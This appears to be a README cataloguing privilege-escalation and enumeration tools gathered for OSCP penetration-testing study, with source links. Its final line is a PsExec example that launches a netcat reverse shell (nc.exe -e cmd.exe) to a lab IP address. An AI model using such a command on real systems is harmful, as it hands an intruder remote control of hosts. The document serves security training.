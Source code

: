 # GATHERED TOOLS THAT ARE USEFUL FOR OSCP !!



## Scanning

- nmapAutomator.sh

	- removed nikto and gobust parts, since sparta does nikto and i prefer to gobust separately, when needed.

from https://github.com/21y4d/nmapAutomator


## Post-Exploitation enums !~ !~ !!

### Linux

- linenum.sh

from rebootuser https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

- linuxprivchecker.py

from https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py

- unixprivchk.sh

from pentestmonkey

### Windows 

- Powerless.bat |  cmd shell enum (for scenarios without PowerShell)

from https://github.com/M4ximuss/Powerless

- windows-exploit-suggester.py

- windows-privesc-check2.exe

- accesschk5.2.exe |  backward compatible for use alongside fuzzy security's walkthrough


## Privilege escalation tools

### Windows

- PsExec.exe / PsExec64.exe |  to run with elevated accounts

	- eg  PsExec64.exe \\\\DOMAIN -u USERNAME -p PASSWORD nc.exe -e cmd.exe 10.11.0.106 80 

